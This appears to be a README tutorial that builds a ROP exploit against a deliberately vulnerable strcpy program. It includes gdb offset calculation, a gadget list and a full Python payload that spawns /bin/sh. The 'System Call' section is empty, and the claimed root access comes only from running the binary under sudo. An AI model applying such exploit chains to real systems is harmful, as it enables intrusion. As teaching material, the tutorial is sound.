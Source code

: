 # ROP-Exploit

## Buffer Overflow
Consider the following piece of code in `code.c`:  
```
#include <stdio.h>
#include <string.h>

void vulnerable(char *arg)
{
	char buf[100];
	strcpy(buf, arg);
}

int _main(int argc, char **argv)
{
	if (argc != 2) {
		fprintf(stderr, "Error: need a command-line argument\n");
		return 1;
	}
	vulnerable(argv[1]);
	return 0;
}
```
Use the command `$ gcc code.c -o code -static -g -fno-stack-protector` to compile the C program into an executable. For your convenience, the binary file `code` has been provided for you.

## System Call

## Calculating Buffer Offset
To determine where our buffer begins and which memory address to overwrite, we can pass many `NOP` instructions as command line argument. This gives `payload.py`:
```
print('\x90'*1024)
```
`$ gdb --args code $(python payload.py)` to load the program.  
`(gdb) b *0x8048ef6` to break at `strcpy(buf, arg);` then `(gdb) c` to run till reaching breakpoint.  
`(gdb) x/2x $esp` to see the values of the two arguments. The output is `0xbffe9790: 0xbffe97ac 0xbffff194`, which means that the address of `buf` is at 0xbffe97ac. You may verify the output of `payload.py` (in other words command line argument `argv[1]`) by using the command `(gdb) x/32b 0xbffff194`.  
Next find the 'old_ebp' and 'ret_addr' field by looking at the vicinity of $ebp: `(gdb) x/4wx $ebp`. This should output `0xbffe9818: 0xbffe9838 0x08048f48 0xbffff194 0x00000000`. Verify that 0x08048f48 is the address to a function in the previous stack frame by executing `(gdb) x/32i 0x08048f48`. The result should be as follows:  
```
0x8048f48 <_main+75>:        mov    $0x0,%eax
0x8048f4d <_main+80>:        leave  
0x8048f4e <_main+81>:        ret    
0x8048f4f:   nop
0x8048f50 <main>:    lea    0x4(%esp),%ecx
0x8048f54 <main+4>:  and    $0xfffffff0,%esp
0x8048f57 <main+7>:  pushl  -0x4(%ecx)
---Type <return> to continue, or q <return> to quit---

```
We now know that 'ret_addr' field is at 0xbffe981c and the offset is 0xbffe981c - 0xbffe97ac = 0x70 = 112.

## Finding Gadgets
Use objdump to create a x86 code dump file of the executable: `objdump -d ./code > code.txt`. Following are some gadgets I found useful (I use intel syntax): 
```
<0x808e97d> mov [edx], eax ; ret        # move the value in eax to location where edx points to
<0x8051750> xor eax, eax ; ret          # clears eax
<0x809a546> inc eax ; ret               # increment eax by 1
<0x8050bbc> inc eax ; pop edi ; ret     # increment eax by 1 followed by a trivial pop
<0x80c2356> pop eax ; ret               # pop eax
<0x80481ec> pop ebx ; ret               # pop ebx
<0x80e3d46> pop ecx ; ret               # pop ecx
<0x805733a> pop edx ; ret               # pop edx
<0x80494f9> int 0x80                    # system call
```
Using the above gadgets, the assembly code to assign the proper values to the 4 registers can be easily produced:
```
# store 0 at buf[8]
xor eax, eax
pop edx 
<$esp> buf+8 
mov [edx], eax

# store "/bin/sh" starting at buf[0]
pop eax
<$esp> 0x6e69622f
pop edx
<$esp> buf
mov [edx], eax
pop eax
<$esp> 0x68732f2f
pop edx
<$esp> buf+4
mov [edx], eax

# store address of string into ebx, clear ecx and edx
pop ebx
<$esp> buf
pop ecx
<$esp> buf+8
pop edx
<$esp> buf+8

# put system call number 11 into eax
xor eax, eax
inc eax
pop edi
<$esp> 0x90909090 (garbage value)
... (repeated 11 times)

# int 0x80
```
## Generating Script
We can generate our buffer overflow with addresses jumping to the gadgets, one after another:
```
from struct import pack
buf = 0xbffe97ac
payload = ''
payload += '\x90'*(108+4)

# store 0x0 into buf[8]
payload += pack('<I', 0x08051750)
payload += pack('<I', 0x0805733a)
payload += pack('<I', buf+8)
payload += pack('<I', 0x0808e97d)

# store "/bin/sh" into buf[0] and buf[4]
payload += pack('<I', 0x080c2356)
payload += pack('<I', 0x6e69622f)
payload += pack('<I', 0x0805733a)
payload += pack('<I', buf)
payload += pack('<I', 0x0808e97d)
payload += pack('<I', 0x080c2356)
payload += pack('<I', 0x68732f2f)
payload += pack('<I', 0x0805733a)
payload += pack('<I', buf+4)
payload += pack('<I', 0x0808e97d)

# ebx <- addr("/bin/sh"), ecx <- 0, edx <- 0
payload += pack('<I', 0x080481ec)
payload += pack('<I', buf)
payload += pack('<I', 0x080e3d46)
payload += pack('<I', buf+8)
payload += pack('<I', 0x0805733a)
payload += pack('<I', buf+8)

# eax <- 11
payload += pack('<I', 0x08051750)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)
payload += pack('<I', 0x08050bbc)
payload += pack('<I', 0x90909090)

# system call
payload += pack('<I', 0x080494f9)

print(payload)
```

## Code Execution
Use the command `sudo chmod 777 code` to grant everyone permission to read, write and execute the binary. You can then type `$ sudo ./code $(python payload.py)`. Note the `#` appeared in console. Verify that you have been given root access by typing `# whoami`, and you should see `root` as expected.
